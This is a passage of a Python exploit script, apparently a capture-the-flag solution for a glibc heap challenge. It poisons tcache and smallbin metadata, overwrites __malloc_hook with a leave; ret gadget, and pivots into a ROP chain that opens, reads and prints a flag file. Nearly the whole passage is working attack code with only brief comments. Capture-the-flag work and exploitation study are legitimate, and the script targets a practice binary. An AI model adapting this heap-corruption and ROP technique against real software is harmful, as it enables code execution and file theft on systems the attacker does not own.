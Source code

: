 ```python
buy(1, 0x220, 'A'*0x210) # Move it to the small bin 

sell(5) # Free the fake 0x6c1 sized chunk into unsorted bin

smallbin = libc.address + 0x1e4eb0
tcache_fake_chunk = heap+0x40 # Fake chunk in the tcache_perthread_struct

payload = '\x00'*0x98 + p64(0x31) # 0x30 sized chunk pointer points here
payload += p64(tcache_fake_chunk) # Overwrite the fd to heapbase+0x40
payload += '\x00'*0x80 + p64(0x221) # 0x30 sized chunk pointer points here
payload += p64(smallbin) + p64(tcache_fake_chunk) # Overwrite fd and bk, corrupt smallbin
buy(5, 0x6b0, payload)

# Put the flag's location string at a known place on the heap
# Using gdb, the flag's location string will be at heapbase+0xa68
payload = 'Z'*0x18
payload += '/home/vagrant/flag'.ljust(0x20, '\x00')

# ROP to open the flag file
# Flag file's file descriptor will be 3
payload += p64(pop_rdi) + p64(heap+0xa68)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(2)
payload += p64(syscall)

# ROP to read the flag file's contents right into heapbase
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)

# ROP to write the contents of heapbase right into stdout
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(1)
payload += p64(syscall)

buy(3, 0x210, payload)

# Overwrite the 0x210 sized chunk tcache bin with pointer to __malloc_hook
buy(2, 0x210, p64(0)*0x20 + p64(malloc_hook))

# Overwrite __malloc_hook with a leave; ret gadget
super_house(p64(leave_ret)) # __mpn_mul_n+83

# rbp is set to rsi before __malloc_hook is called in calloc
# Therefore we pass heap+0xa80 as an argument, as our ROP chain starts at
# heap+0xa88
buy(4, heap+0xa80, 'A')

p.interactive()
```
